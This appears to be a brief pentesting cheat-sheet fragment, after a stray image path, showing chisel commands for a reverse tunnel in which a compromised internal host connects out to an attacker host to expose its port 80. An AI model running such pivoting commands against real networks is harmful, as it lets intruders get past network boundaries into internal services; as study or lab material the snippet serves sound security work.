

Attacker box# chisel server -p 8000 -reverse
Internal box# chisel client <Attacker box>:8000 R:8001:<Internal box>:80
This will let the attacker gain access to port 80 on the internal box by browsing to attacker port 8001 using port 8000 as the tunnel
